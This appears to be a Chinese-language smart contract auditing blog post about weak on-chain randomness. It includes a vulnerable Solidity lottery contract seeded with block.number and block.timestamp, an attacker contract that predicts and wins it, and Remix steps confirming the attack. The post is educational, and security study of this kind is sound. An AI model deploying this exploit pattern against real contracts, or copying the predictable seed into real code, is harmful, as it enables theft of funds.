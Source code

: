 ```yaml
---
layout: post_layout
title: 智能合约审计-随机误用
time: 2020年4月13日 星期一
location: 合肥
pulished: true
excerpt_separator: "#"
---
```


描叙：智能合约开发中，在程序中使用随机数较好的伪随机数是很难的。很多看似无法被预言的随机数种子或变量，实际被预言的难度很低。

核心问题：一旦在智能合约中使用了随机性很差的随机数作为关键变量，就面临着随机数被预言的攻击风险。

# 一些概念

#### 智能合约常用的随机数计算方式

> keccak256(seed)

#### 常用seed的选取：

- 私有变量

- 区块有关状态block.something

- msg.sender

- 上述数据的哈希或者运算组合

#### 常用的区块属性

- block.blockhash

- block.coinbase

- block.difficulty

- block.gaslimit

- block.number

- block.timestamp

> 使用区块相关属性作为随机数种子，是一种常见但是非常不安全的方式，其不安全在于，这些数据对于同一个transaction中的合约调用是可预测的。

### msg.sender随机预测

- 使用msg.sender做为随机数种子的安全风险在于，该数据是用户可控的。若随机数种子一旦可以被攻击者选择或控制，就会使随机数面临被预测的风险。

> https://vanity-eth.tk 生成特定的地址

# 漏洞合约分析

```sol
pragma solidity ^0.4.24;

contract RandomGame{
    mapping (address => uint256) public balances;
    
    event LuckyLog(uint lucky_number, uint guess);

    function lucky(uint256 guess) public returns(uint256){
        uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
        uint256 lucky_number = uint256(keccak256(abi.encodePacked(seed))) % 100;
        if(lucky_number == guess){
            balances[msg.sender] += 1000;
        }
        emit LuckyLog(lucky_number,guess);
        return lucky_number;
    }
}
```
漏洞点：使用了不安全的block.number做为随机数的种子，导致随机数可以被预测，攻击者可以在合约中进行预测，造成一定损失。

# 攻击者合约

```sol
pragma solidity ^0.4.24;

contract RandomGame{
    mapping (address => uint256) public balances;
    
    event LuckyLog(uint lucky_number, uint guess);

    function lucky(uint256 guess) public returns(uint256){
        uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
        uint256 lucky_number = uint256(keccak256(abi.encodePacked(seed))) % 100;
        if(lucky_number == guess){
            balances[msg.sender] += 1000;
        }
        emit LuckyLog(lucky_number,guess);
        return lucky_number;
    }
}

contract AttackRandom{
    RandomGame rg;
    
    function setTarget(address _addr) public {
        rg=RandomGame(_addr);
    }
    
    function attack() public returns(uint256){
        uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
        uint256 lucky_number = uint256(keccak256(abi.encodePacked(seed))) % 100;
        rg.lucky(lucky_number);
        return lucky_number;
    }
}
```
----------
# 使用Remix进行进行调试

- 首先对合约进行编译（Current version设置为0.4.24，Auto compile，Enable Optimization全部勾上。编译完成后会出现2个合约分别为RandomGame、AttackRandom部署

- 将AttackRandom合约中setTarget设置为RandomGame合约地址(0xdc0...46222)

- 点击attack发起攻击，然后在RandomGame合约中balances中输入攻击者合约地址(0x8c1...401f5)，查询余额，发现为1000 wei ETH，实验成功。

# 漏洞预防

1. 使用Oraclize提供的一个合约接口库，可以通过链下off-chain的数据流推送data-feed来提供与链状态无关的随机数
